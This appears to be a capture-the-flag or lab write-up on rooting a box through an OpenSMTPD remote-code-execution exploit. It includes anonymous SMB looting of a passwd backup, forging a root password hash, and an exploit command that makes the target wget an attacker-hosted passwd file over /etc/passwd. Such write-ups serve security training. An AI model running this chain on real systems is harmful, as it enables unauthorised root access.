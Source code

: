 ```yaml
---
tags:
- smtp
- opensmtpd
- exploit-47984
created: 2024-04-01
lastmod: 2024-04-01
published: 2024-04-01
image:
description: 
---
```

#### Method

>[!code]- Find open ports (22, 25, 80, 445)
>**All open ports**
>- rustscan -a $ip
>
>![Pasted image 20240614052520](Pasted%20image%2020240614052520.png)
>
>___
>
>**Versions**
>- OpenSMTPD running on port 25
>  
> ![Pasted image 20240614053037](Pasted%20image%2020240614053037.png)

>[!code]- Obtain `passwd.bak` from the SMB share (port 445)
>List shares:
>- **-N** for no password (anonymous access)
>- **-L** to list available share
>
>![Pasted image 20240614052744](Pasted%20image%2020240614052744.png)
>
>___
>
>Connect to the **backup** share and download the **passwd.bak** file
>![Pasted image 20240614052852](Pasted%20image%2020240614052852.png)
>
>>[!code] passwd.bak
>>![Pasted image 20240614052952](Pasted%20image%2020240614052952.png)
>

>[!code]- Find an OpenSMTPD exploit (port 25)
>Searchsploit OpenSMPTD
>![Pasted image 20240614053211](Pasted%20image%2020240614053211.png)

>[!exploit]- The exploit allows for RCE; we can upload a malicious copy of `/etc/passwd`

>[!code]- Alter the download `passwd.bak` file to include a malicious **root** user
>Create a new hash of a password that we know:
>```bash
>mkpasswd -m md5 -s
>```
>![Pasted image 20240614053712](Pasted%20image%2020240614053712.png)
>
>___
>
>Edit **passwd.bak** and edit the root user within it:
>![Pasted image 20240614053841](Pasted%20image%2020240614053841.png)

>[!code]- Use the exploit to replace its original passwd file with our malicious `passwd.bak` file
>```bash
>python 47984.py 192.168.236.71 25 'wget 192.168.45.213/passwd -O /etc/passwd'
>```
>![Pasted image 20240614054054](Pasted%20image%2020240614054054.png)

>[!code]- SSH to the victim as root using the password in the malicious `passwd` file
>![Pasted image 20240614054235](Pasted%20image%2020240614054235.png)

>[!success]- Obtain proof.txt
>![Pasted image 20240614054309](Pasted%20image%2020240614054309.png)

